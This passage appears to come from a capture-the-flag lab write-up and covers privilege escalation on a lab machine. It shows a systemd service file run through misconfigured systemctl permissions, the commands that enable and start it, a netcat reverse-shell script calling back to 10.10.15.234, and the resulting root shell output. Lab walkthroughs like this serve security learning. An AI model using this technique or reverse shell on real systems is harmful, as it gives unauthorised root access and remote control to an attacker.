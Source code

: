```
-rwsr-xr-x 1 root root 440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

The binary systemctl has execute permissions for members in the group ```pepper``` while the binary is a symbolic link that belongs to ```root```. This means, we can execute commands as root while still under the group ```pepper```.

After googling a little, we can write our own .ini file to return a shell when systemctl starts the service.
Writing our own .ini file:
```
[Unit]
Description=root shell
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/home/pepper/rev.sh

[Install]
WantedBy=multi-user.target
```

Save the file as root.service and launch the following commands:
```
systemctl enable /home/pepper/root.service

systemctl start /home/pepper/root.service
```

Of course, you need your reverse shell script in the home directory.

```
#!/bin/sh

nc -nv 10.10.15.234 9003 -e /bin/sh
```

After the service has been executed, we get our root shell!

```
whoami
root
cd /root
ls -al
total 52
drwx------  6 root root 4096 Mar  5  2019 .
drwxr-xr-x 23 root root 4096 Mar  3  2019 ..
lrwxrwxrwx  1 root root    9 Mar  4  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  4 root root 4096 Mar  3  2019 .cache
-rwxr--r--  1 root root   42 Mar  4  2019 clean.sh
drwxr-xr-x  3 root root 4096 Mar  3  2019 .config
drwxr-xr-x  3 root root 4096 Mar  3  2019 .local
lrwxrwxrwx  1 root root    9 Mar  4  2019 .mysql_history -> /dev/null
drwxr-xr-x  2 root root 4096 Mar  2  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
lrwxrwxrwx  1 root root    9 Mar  4  2019 .python_history -> /dev/null
-r--------  1 root root   33 Mar  5  2019 root.txt
-rw-r--r--  1 root root   66 Mar  4  2019 .selected_editor
-rwxr-xr-x  1 root root 5271 Mar  5  2019 sqli_defender.py
wc -c root.txt
```
